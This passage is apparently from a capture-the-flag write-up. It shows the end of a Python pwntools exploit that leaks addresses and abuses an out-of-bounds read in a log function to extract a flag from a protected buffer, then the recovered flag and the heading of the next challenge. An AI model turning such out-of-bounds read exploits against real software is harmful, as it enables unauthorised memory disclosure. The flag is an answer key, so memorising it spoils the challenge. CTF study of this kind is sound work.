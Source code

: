 ```python
    leak("v3 (secure buffer)", hex(v3))
    leak("buf (user buffer)", hex(buf))
    opt2_load_flag()
    want = (v3 - buf) + 0x80
    log.info(f"Attempting OOB read of {want:#x} bytes to cover v3 region…")
    dump = opt3_read_log(want)
    off = v3 - buf
    flag_part = dump[off:off+0x64]
    log.success(f"Extracted bytes at offset {off:#x} (candidate flag): {flag_part!r}")
    leak("ELF base address", hex(elf.address)) if elf.address else None
    leak("Libc base address", hex(libc.address)) if libc.address else None
    io.interactive() if not args.NOINTERACT else None

if __name__ == '__main__':
    global io
    for i in range(1):
        try:
            exploit(i)
        except Exception as e:
            print(f"Error occurred: {e}")
        io.close()
```

### Flag

`SCH25{Kur4ng_T4hU_Ju9A_Y4H_muNgKiN_SuaTu_s4At_b4KaL_When_Yh}`
    
# Pwn - program loop alpha

## Introduction 
